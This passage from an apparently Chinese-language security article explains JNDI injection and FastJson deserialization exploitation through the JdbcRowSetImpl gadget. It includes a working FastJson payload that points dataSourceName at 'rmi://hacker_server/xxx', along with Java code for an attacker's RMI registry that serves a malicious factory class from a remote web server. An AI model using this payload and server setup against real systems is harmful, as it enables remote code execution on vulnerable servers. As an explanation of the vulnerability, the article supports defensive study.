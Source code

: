 ![Reference调用链]({{site.url}}/images/articles/rmi/reference-exploit.png)

调用链：

- -> RegistryContext.decodeObject() 
- -> NamingManager.getObjectInstance()
- -> factory.getObjectInstance()

*Tips：JNDI查找远程对象时InitialContext.lookup(URL)的参数URL可以覆盖一些上下文中的属性，比如：Context.PROVIDER_URL。*

Spring框架的spring-tx.jar中的JtaTransactionManager.readObject()中就存在这个问题，当进行对象反序列化的时候，会执行lookup()操作，可以进行JNDI注入。

Matthias Kaiser(@matthias_kaiser)发现com.sun.rowset.JdbcRowSetImpl类的execute()也可以触发JNDI注入利用，调用过程如下：

- -> JdbcRowSetImpl.execute() 
- -> JdbcRowSetImpl.prepare() 
- -> JdbcRowSetImpl.connect() 
- -> InitialContext.lookup(dataSource)

## 2.3 FastJson反序列化利用
    
根据FastJson反序列化漏洞原理，FastJson将JSON字符串反序列化到指定的Java类时，会调用目标类的getter、setter等方法。

JdbcRowSetImpl类的setAutoCommit()会调用connect()函数，connect()函数如下：

```java
    private Connection connect() throws SQLException {
        if(this.conn != null) {
            return this.conn;
        } else if(this.getDataSourceName() != null) {
            try {
                InitialContext var1 = new InitialContext();
                DataSource var2 = (DataSource)var1.lookup(this.getDataSourceName());
                return this.getUsername() != null && !this.getUsername().equals("")?var2.getConnection(this.getUsername(), this.getPassword()):var2.getConnection();
            } catch (NamingException var3) {
                throw new SQLException(this.resBundle.handleGetObject("jdbcrowsetimpl.connect").toString());
            }
        } else {
            return this.getUrl() != null?DriverManager.getConnection(this.getUrl(), this.getUsername(), this.getPassword()):null;
        }
    }
```

connect()会调用InitialContext.lookup(dataSourceName)，这里的参数dataSourceName是在setter方法setDataSourceName(String name)中设置的。所以在FastJson反序列化漏洞过程中，我们可以控制dataSourceName的值，也就是说满足了JNDI注入利用的条件。利用Payload如下：

    {"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"rmi://hacker_server/xxx","autoCommit":true}

攻击者的服务端需要启动一个RMI Registry，并且绑定一个Reference远程对象，同时设置一个恶意的factory类。

```java
    Registry registry = LocateRegistry.createRegistry(1099);
    String remote_class_server = "http://192.168.1.200:8080/";
    Reference reference = new Reference("Exploit", "Exploit", remote_class_server);
    //reference的factory class参数指向了一个外部Web服务的地址
    ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
    registry.bind("xxx", referenceWrapper);
```
